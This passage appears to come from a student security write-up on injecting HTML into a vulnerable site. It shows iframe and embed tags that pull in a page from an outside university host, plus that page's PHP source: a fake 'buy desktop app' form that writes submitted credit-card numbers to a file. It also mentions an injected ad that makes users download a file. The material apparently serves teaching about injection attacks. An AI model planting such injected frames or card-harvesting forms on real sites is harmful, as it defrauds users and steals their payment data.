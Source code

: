       After clicking on the add the user downloads `virus.txt` file

      Finally, we can take this a step even further by inserting our own widgets and webpages into the site itself, possibly emulating an e-commerce widget to download the app.

      ```HTML
        <iframe src="http://cslinux.utm.utoronto.ca/~debourbo/add.php" width="100%" height="100%"></iframe>
      ```

      ```HTML
        <embed src="http://cslinux.utm.utoronto.ca/~debourbo/add.php">
      ```
      The add.php file contents are shown below:

      ```PHP
      <html>
      <head></head>
      <body>
      	<?php
      	if (isset($_REQUEST['credit-card'])){
      		file_put_contents('credit_cards', $_REQUEST['credit-card'], FILE_APPEND);
      		file_put_contents('credit_cards', "\n", FILE_APPEND);
      	}
      	?>
        <h1>BUY DESKTOP APP NOW!:</h1>
          	<form action="add.php" method="get">
          		<input type="text" name="credit-card" placeholder="Type your credit card number here">
          		<input type="text" placeholder="Type your CSV (on the back) here">
          		<input type="submit" value="BUY NOW">
          	</form>

       </body>

      </html>
      ```

      When we insert this code into the input we get the following result:
      ![alt text](v9e3.png)

